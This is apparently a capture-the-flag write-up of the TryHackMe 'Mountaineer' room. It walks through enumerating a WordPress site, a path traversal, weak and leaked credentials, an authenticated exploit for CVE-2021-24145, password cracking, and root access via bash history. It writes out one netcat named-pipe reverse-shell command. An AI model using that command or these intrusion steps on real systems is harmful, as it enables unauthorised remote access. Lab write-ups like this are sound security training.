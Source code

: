 ```yaml
---
title: Mountaineer
date: 2024-10-22
tags: [tryhackme, ctf]
author: nandakishor
---
```


# Mountaineer tryhackme
MOUNTAINEER
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 141106.png>)

For initial recon i used rustscan with -sCV flag
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145602.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145707.png>)

Port 22 (SSH): Running OpenSSH 8.9p1 on Ubuntu
Port 80 (HTTP): Running nginx 1.18.0 on Ubuntu
To gather more detailed information, I followed up with a Nmap scan on the detected ports, which provided additional details:

The SSH server uses ECDSA and ED25519 host keys.
The HTTP service is running nginx, supporting basic methods like GET and HEAD. The default nginx welcome page was displayed, suggesting no specific web application was immediately accessible.


![alt text](../assets/images/mountaineer/image.png)
I run a ffuf scan and i found wordpress directory


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145844.png>)
This is the wordpress website, in the mean time i used ffuf to enumerate for more directories

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150118.png>)
we can see a domain name here so add it to /etc/hosts

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150253.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150549.png>)
This is the website

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151717.png>)
Use wpscan for more info, and

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151832.png>)
we can see a theme is installed init
I used to exploit it but it didnt worked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152126.png>)
Also we got some usernames:

ChoOyu
Everest
MontBlanc
admin
everest
montblanc
chooyu
k2

save into a text file.

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152314.png>)
we can see a image directory , capture the request

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152704.png>)
We can see a potential path traversal here


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152831.png>)
I used chat gpt to find the location of ngix that we can get some info

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152916.png>)
this is the intersting location that i found


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153018.png>)
we can see a vhost name there, add it to /etc/host file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153105.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153156.png>)
Its a login page, it requires creds, so i tries SQL injection and other login bypass methos, nothing worked so i used the username that we got from WP scan to bypass it

`k2:k2`

is the usename and password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153904.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154017.png>)

i got a password

th3_tall3st_password_in_th3_world

And another intersting mail
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154109.png>)



We already have a password and username , so i used it against wp-admin

`k2:th3_tall3st_password_in_th3_world`
it worked
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154338.png>)


If we have the authentication we can use the exploit CVE-2021-24145

https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

we can download it from here

And exploit it 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154945.png>)

we got a shell

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155014.png>)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip port >/tmp/f

I used this to get the reverse shell
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155208.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155239.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155405.png>)
we can see a backup file here , get into my system and analyse it

http.server method doesnt worked so i used nc method to transfer file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160201.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160311.png>)

I used john to crack the password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160335.png>)

But the rockyou is't working for me , and its taking too much time,
so i created a custom wordlist to crack it

We can use tools like Crunch,cewl, cupp to do this,

i used cupp , Because 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160856.png>)

this format looks similar to the cupp

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161146.png>)
we got out custom wordlist

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161249.png>)

The password is cracked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161506.png>)

Basic Commands

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161643.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161731.png>)

We got a username and password , its probaly for ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175735.png>)

Login using ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180217.png>)
We can direcly get the root password brom the bash history

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180356.png>)
